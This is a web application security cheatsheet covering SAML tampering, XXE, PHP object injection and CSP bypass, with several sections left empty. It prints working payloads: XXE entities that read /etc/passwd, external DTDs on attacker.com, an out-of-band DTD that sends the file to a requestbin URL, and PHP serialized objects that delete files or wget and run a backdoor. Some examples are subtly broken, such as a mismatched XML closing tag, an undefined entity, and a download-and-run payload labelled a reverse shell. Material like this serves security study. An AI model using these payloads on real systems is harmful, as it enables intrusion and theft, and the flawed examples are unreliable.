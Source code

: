 Web Application Security Cheatsheet
===================================

## Table of Contents

_Published 16th April 2018_

- [Session Management](#session-management)  
- [Authentication - OAuth](#authentication-oath) 
- [Authentication - SAML](#authentication-saml)  
- [XML - XML External Entities (XXE)](#xml---xml-external-entities)  
- [PHP Un-serialization](#php-un-serialize)  
- [Advanced XSS - Single Origin Policy (SOP)](#advanced-xss---same-origin-policy)  
- [Advanced XSS - Content Security Policy (CSP)](#advanced-xss---content-security-policy)

## Content

### Session Management
---

### Authentication - OAuth
---

### Authentication - SAML
---

**Summary**  

XML input containing a reference to an external entity which is processed by a weakly configured XML parser, enabling disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts. (OWASP)

<a href="https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/">Common SAML Implementation Mistakes</a> 

**SAML Components**  

_Relay State_: a token to reference state information maintained by the Service Provider (SP).  
_SAMLResponse_: the response from the Identity Provider (IDP) containing the base64 encoded Assertion to the SP.

**Exploitation**  

Modifying `NotBefore` or `NotOnOrAfter` values.
* Change values to a datetime which is valid within the time you want to make the malicious request.

Modifying SAML Attributes
* Some attributes may exist such as `userType`, which you may change to perform privilege escalation.

Signature Attacks
* [ need more info ]

**Remediation**  

<a href="https://www.owasp.org/index.php/Authentication_Cheat_Sheet">OWASP Auth Cheatsheet</a><br>
<a href="https://www.owasp.org/index.php/SAML_Security_Cheat_Sheet">OWASP SAML Security Cheatsheet</a>

### XML – XML External Entities
---

**Summary**

Entity Types:
* General entities - can be used in XML content like &name;
  `<!ENTITY name "Hello World">`
* Parameter entities - can be used inside doctype definition like %name; (parameter entities can insert new entities) and inside entities values like %name;.
  `<!ENTITY % name "Hello World">`
  `<!ENTITY % name "Hello %myEntity;">`
* External entities - entities with query to external (not declared in current XML document) resource (can be used both: general entities and parameter entities)
  `<!ENTITY name SYSTEM "URI/URL">`
  `<!ENTITY name PUBLIC "any_text" "URI/URL">`
* External entities can be used for doctypes too:
  `<!DOCTYPE name SYSTEM "address.dtd" [...]>`
  `<!DOCTYPE name PUBLIC "any text" "http://evil.com/evil.dtd">`

_XML DTD (XML Document Type Declaration)_ is used to define the structure of the XML document, with a list of legal elements.  
* Provides a way for applications to share data using a common structure, to verify that the data received is valid.  
* Allows creation of Entities.  

**Exploitation**  

Basic XXE Test
```xml
<!DOCTYPE test [<!ENTITY example "Hello World"> ]>
<test>
  <hello>&example;</hello>
</userInfo>
```

Local File Inclusion  
```xml
<!DOCTYPE data [
  <!ELEMENT lol ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<lol>&xxe;</lol>
```

Remote File Inclusion / SSRF
_stuff.xml_
```xml
<!DOCTYPE data [
  <!ELEMENT lol ANY>
  <!ENTITY xxe SYSTEM "https://attacker.com/evil.dtd">
  &xxe;
]>
<lol>&file;</lol>
```
_evil.dtd_
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
```

XXE Out of Bounds attack (XXE OOB)  
```xml
<!DOCTYPE data [
  <!ELEMENT lol ANY>
  <!ENTITY xxe SYSTEM "https://attacker.com/evil.dtd">
  &xxe; &all;
]>
```
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'https://requestbin.fullcontact.com/1cxrgsm1/?%file;'>">
```

### PHP Un-serialize
---

**Summary**  

Allows an attacker to perform _code / sql injection_, _path traversal_ and _denial of service_ attacks due to user-input not being properly sanitised before being passed to the `unseralize()` PHP function. (OWASP)

Since PHP allows object serialisation, attackers can pass in a malicious string to a vulnerable `unserialize()` call, resulting in arbitrary PHP object injection.  

_See more_: <a href="https://www.owasp.org/index.php/PHP_Object_Injection">PHP Object Injection</a>  
_PHP Magic Methods_: http://php.net/manual/en/language.oop5.magic.php  

**Exploitation**

Example: Deleting an arbitrary file via. Path Traversal
```PHP
class Example1 {
   public $cache_file;

   function __construct() {
      // some PHP code...
   }

   function __destruct() {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_GET['data']);
// some PHP code...

// PAYLOAD //
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

Example: Reverse Shell
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}
// GENERATE ENCODED PAYLOAD
echo urlencode(serialize(new PHPObjectInjection));
```

Example: Local File Disclosure
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

**Remediation**

Do not use unserialize() function with user-supplied input, use JSON functions instead i.e. `json_encode()` / `json_decode()`.

### Advanced XSS - Same Origin Policy
---

### Advanced XSS - Content Security Policy
---  

**Summary**  

CSP is a security standard introduced to prevent attacks resulting from execution of malicious content in a trusted page. It allows website owners to declare approved origins of content that browsers should allow to load on that website.    

Example: `script-src userscripts.example.com`  
* Means only `userscripts.example.com` can provide scripts to be executed. INLINE SCRIPTS WON’T WORK.

CSP Components:  
`none`: matches nothing  
`self`: matches the current origin, but NOT its subdomains  
`unsafe-inline`: allows inline JavaScript and CSS.  
`unsafe-eval`: allows text-to-JavaScript mechanisms like eval  

**Exploitation**  

_Misconfigurations_: example write-up on Twitter CSP Bypass (misconfiguration)  
_JSONP_: including controlled JavaScript on the domain.  
_Polyglots_: CSP Bypass using Polyglot jpeg/javascript

**Remediation**  


